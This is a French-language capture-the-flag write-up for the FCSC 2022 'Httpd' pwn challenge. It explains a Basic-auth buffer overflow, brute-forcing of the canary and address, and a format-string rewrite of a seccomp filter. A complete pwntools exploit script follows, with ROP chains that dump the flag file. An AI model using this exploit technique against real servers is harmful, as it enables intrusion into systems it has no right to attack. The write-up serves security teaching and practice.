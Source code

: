 #### Httpd

était un challenge de pwn du FCSC 2022 donc..

plus ou moins inspiré du challenge protostar

https://www.youtube.com/watch?v=MBz5C9Wa6KM

ou un process fils doit exploiter le processus parent via une format string dans syslog.

Le challenge d'origine a été durci par une sandbox, et toutes les protections du binaire sont activées,

canary, PIE, etc...

la vulnerabilité du processus fils qui parse les headers HTTP, se trouve dans checkauth()

la chaine en base64 de l'authentification basic du header HTTP, n'est pas vérifiée en longueur

et est décodée dans un buffer char creds[256];

ce qui cause un buffer overflow..

On procèdera donc au début à un bruteforce du canary, et de la valeur de l'addresse de retour afin de contourner l'ASLR.

Une fois ce bruteforce exécuté, on connait donc l'addresse de mappage en mémoire du binaire du fils (et du parent par conséquent, car fork préserver les addresses de mapping)

On va envoyer un ROP dans le fils qui va réécrire une format string dans la chaine stockéee dans la shared memory partagée entre le fils et le parent..et qui sera envoyé dans syslog() pour logguée l'utilisateur se connectant..

grâce à cette format string , on modifie dans la .bss le seccomp en place pour authoriser le syscall open,

et on lit et dump le flag, maintenant qu'on peut écrire un ROP open read write classique..

comme dans cet exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import base64

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF("./httpd_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

if args.REMOTE:
  duration = 0.2
else:
  duration = 0.01

host, port = "challenges.france-cybersecurity-challenge.fr", "2058"

def genpayload(data):
  p = ''
  p += 'GET / HTTP/1.1\r\n'
  p += 'Host: ansimorons.com:8080\r\n'
  p += 'Connection: keep-alive\r\n'					# keep alive is important to keep connection open between payloads, (bool keepalive;  in struct shared)
  p += 'Authorization: Basic '+base64.b64encode(data)+'\r\n\r\n'
  return p


#--------------------------------------------------- START
print('bruteforcing canary...patience...')
canary = b'\x00'		# we already know that canary LSB is zero
if args.REMOTE:
  p = connect(host, port)
else:
  p = process(exe.path)
while(len(canary)<8):
  i = 0
  while (i<256):
    payload = b'admin:admin'.ljust(0x108,b'\x00')+ canary + p8(i)
    buff = ''
    p.send(genpayload(payload))
    buff=p.recvuntil('flag', timeout=duration)
    if 'Congrat' in buff:
      canary += p8(i)
      print('uptonow: '+hexdump(canary, total=False))
      i = 0
      break
    i += 1

canary += 'A'*8+'\x9e'		# we already know return address lsb (0x9e)
while(len(canary)<24):
  i = 0
  while (i<256):
    payload = b'admin:admin'.ljust(0x108,b'\x00') + canary + p8(i)
    buff = ''
    p.send(genpayload(payload))
    buff=p.recvuntil('flag.',drop=True, timeout=duration)
    if 'Congrat' in buff:
      canary += p8(i)
      print('uptonow: '+hexdump(canary, total=False))
      i = 0
      break
    i += 1

# ok , after bruteforcing the return address, we can calculate the program base
prog = u64(canary[16:24]) - 0x289e
print('prog base = '+hex(prog))

exit_success = prog + 0x1663	# exit returning success
puts = prog + exe.sym['puts']
puts_got = prog + exe.got['puts']

set_csu = prog + 0x2a9a
call_csu = prog + 0x2a80
pop_rdi = prog + 0x0000000000002aa3 # pop rdi ; ret
pop_rsi = prog + 0x0000000000002aa1 # pop rsi ; pop r15 ; ret

def csucall(func,arg1,arg2,arg3):
  return p64(set_csu)+p64(0)+p64(1)+p64(arg1)+p64(arg2)+p64(arg3)+p64(func)+p64(call_csu)+p64(0)*7

# leak libc address from got
payload = b'admin:admin'.ljust(0x108,b'\x00') + canary[0:16]
payload += p64(pop_rdi)+p64(puts_got)+p64(puts)+p64(exit_success)
p.send(genpayload(payload))
libc.address = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - libc.sym['puts']
print('libc base = '+hex(libc.address))
binsh = libc.address + 0x1abf05

#---------------------------------
# libc gadgets that we will use
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
syscall = rop.find_gadget(['syscall', 'ret'])[0]
xchg_eax_edi = libc.address + 0x0000000000097ac5 # xchg eax, edi ; ret
xchg_eax_edx = libc.address + 0x0000000000096716 # xchg eax, edx ; ret
bss = prog + + exe.bss(0xa00)

#---------------------------------------------------------------------------------------
# ebpf filter rewrite with the format string
#---------------------------------------------------------------------------------------
off_read = 0x503c
off_write = 0x5044
off_sigreturn = 0x504c
off_exit = 0x5054
off_brk = 0x505c

context.log_level = 'debug'

def set_bpf(offset,val):
  global prog
  return '%'+str(250+val)+'c%12$hhnAAAAAA'+p64(prog+offset)

# we change authorized sigreturn syscall in the ebpf filter, to open syscall
payload2 = set_bpf(off_sigreturn, 2)	# return success always
payload = b'admin:admin'.ljust(0x108,b'\x00') + canary[0:16]
# we read our format string into the shared memory zone, over the admin login..
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(libc.address + 0x1ed000+2) + p64(pop_rdx) + p64(len(payload2)) + p64(pop_rax)+p64(0)+p64(syscall)
payload += p64(exit_success)
p.send(genpayload(payload))
p.send(payload2)

#----------------------------------------------------------------------------
payload = b'admin:admin'.ljust(0x108,b'\x00') + canary[0:16] 
# file name we want to read
fname = 'flag.txt\x00'
# send data
#payload += p64(pop_rdx) + p64(0x10) + p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(prog) + p64(pop_rax) + p64(1) + p64(syscall)
# read filename and store it in the bss
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(bss) + p64(pop_rdx) + p64(len(fname)) + p64(pop_rax)+p64(0)+p64(syscall)
# open filename
payload += p64(pop_rdi) + p64(bss) + p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(2) + p64(syscall)
# read file
payload += p64(xchg_eax_edi) + p64(pop_rsi) + p64(bss) + p64(pop_rdx) + p64(0x200) + p64(pop_rax)+p64(0)+p64(syscall)
# dump it to stdout
payload += p64(xchg_eax_edx) + p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(bss) + p64(pop_rax) + p64(1) + p64(syscall) + p64(exit_success)

p.send(genpayload(payload))
#buff = p.recv(0x10)
p.send(fname)

print(hexdump(p.recv()))

p.interactive()

```

